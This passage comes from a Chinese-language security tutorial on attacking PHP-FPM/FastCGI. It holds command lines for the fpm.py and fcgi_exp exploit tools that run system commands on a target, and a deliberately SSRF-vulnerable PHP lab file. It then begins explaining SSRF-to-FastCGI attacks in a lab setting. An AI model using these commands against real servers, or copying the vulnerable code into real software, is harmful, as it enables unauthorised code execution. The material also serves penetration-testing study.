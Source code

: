 - 项目地址：<https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75>

> “兼容Python2和Python3，方便在内网用。之前好些人总是拿着一个GO写的工具在用，又不太好用。实际上理解了fastcgi协议，再看看这个源码，就很简单了。“
> 
> ​ —— phith0n

利用方式：

```bash
python fpm.py 192.168.43.82 /var/www/html/index.php -c "<?php system('id'); exit(); ?>"
```

如下图所示，成功执行系统命令，利用成功：

![image-20210501205327308](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-632076f4dd116debbf58e07b59c6032954d8cd1a.png)

SSRF 中对 FPM/FastCGI 的攻击
-----------------------

有时候 PHP-FPM 也并不会执行绑定在 0.0.0.0 上面，而是 127.0.0.1，这样便避免了将 PHP-FPM 暴露在公网上被攻击者访问，但是如果目标主机上存在 SSRF 漏洞的话，我们便可以通过 SSRF 漏洞攻击内网的 PHP-FPM 。

- 靶 机：Ubuntu（192.168.0.175）
- 攻击机：Kali（192.168.0.128）

在目标机Web目录中新建 ssrf.php 文件，写入以下存在 SSRF 漏洞的代码：

```php
 <?php
    highlight_file(__FILE__);
    $url = $_GET['url'];
    $curl = curl_init($url);    
    //第二种初始化curl的方式
    //$curl = curl_init(); curl_setopt($curl, CURLOPT_URL, $_GET['url']); 

    /*进行curl配置*/
    curl_setopt($curl, CURLOPT_HEADER, 0); // 不输出HTTP头
    $responseText = curl_exec($curl);
    //var_dump(curl_error($curl) ); // 如果执行curl过程中出现异常，可打开此开关，以便查看异常内容

    echo $responseText;
    curl_close($curl);
?> 
```

此时目标主机存在 SSRF 漏洞，并且通过 SSRF 可以探测到目标主机上 9000 端口上运行的 php-fpm。此时，虽然 php-fpm 没有暴露在公网上，但是由于存在 SSRF 漏洞，我们便可以通过 SSRF 漏洞配合 Gopher 协议去打内网的 php-fpm。

### 利用 fcgi\_exp 攻击

- 项目地址：<https://github.com/wofeiwo/webcgi-exploits>

刚在我们已经演示过了，fcgi\_exp 这个工具主要是用来攻击未授权访问 php-fpm 的，所以一些地方需要自己写脚本转换一下 payload。

使用如下命令进行测试：

```bash
./fcgi_exp system 192.168.43.82 9000 /var/www/html/index.php "id"
```
